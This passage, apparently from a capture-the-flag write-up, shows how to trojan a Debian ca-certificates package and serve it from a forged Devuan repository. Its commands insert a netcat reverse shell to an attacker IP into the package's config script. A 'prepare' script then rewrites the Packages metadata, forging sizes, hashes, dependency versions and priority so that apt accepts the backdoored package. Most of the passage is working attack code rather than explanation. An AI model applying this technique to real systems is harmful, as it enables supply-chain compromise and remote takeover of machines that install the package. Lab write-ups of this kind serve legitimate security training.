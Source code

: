 
{% include image.html image_alt="f2478a05.png" image_src="/208c1863-9d75-45f1-9a63-a56e87f6c38c/f2478a05.png" %}


Run the following commands in the same directory:

```
# wget http://kali.download/kali/pool/main/c/ca-certificates/ca-certificates_20190110_all.deb
# dpkg-deb -R ca-certificates_20190110_all.deb evil
# rm ca-certificates_20190110_all.deb
# sed -i '2i \/bin/nc 10.10.12.49 4321 -e /bin/bash' evil/DEBIAN/config
# dpkg-deb -b evil ca-certificates_20190110_all.deb
# cp ca-certificates_20190110_all.deb /root/Downloads/onetwoseven/backdoor/devuan/pool/main/c/ca-certificates
```

Prepare the Package metadata with the following script.

<div class="filename"><span>prepare</span></div>

```bash
#!/bin/bash

DEB=$(pwd)/devuan/pool/main/c/ca-certificates/*.deb
PACKAGE=$(pwd)/devuan/dists/ascii/main/binary-amd64

# Package
apt-cache show ca-certificates > "$PACKAGE"/Packages

# Downgrade dependency
sed -r -i "s/1.1.1/1.0.0/" "$PACKAGE"/Packages

# Size
sed -r -i "s/^(Size: )(.*)$/\1$(ls -la $DEB | cut -d' ' -f5)/" "$PACKAGE"/Packages

# SHA256
sed -r -i "s/^(SHA256: )(.*)$/\1$(sha256sum $DEB | cut -d' ' -f1)/" "$PACKAGE"/Packages

# SHA1
sed -r -i "s/^(SHA1: )(.*)$/\1$(sha1sum $DEB | cut -d' ' -f1)/" "$PACKAGE"/Packages

# MD5Sum
sed -r -i "s/^(MD5sum: )(.*)$/\1$(md5sum $DEB | cut -d' ' -f1)/" "$PACKAGE"/Packages

# Priority
sed -r -i "s/^(Priority: )(.*)$/\1required/" "$PACKAGE"/Packages

# Package.gz
gzip < "$PACKAGE"/Packages > "$PACKAGE"/Packages.gz
```

Prepare the Package Release metadata with the following script.

<div class="filename"><span>pack</span></div>
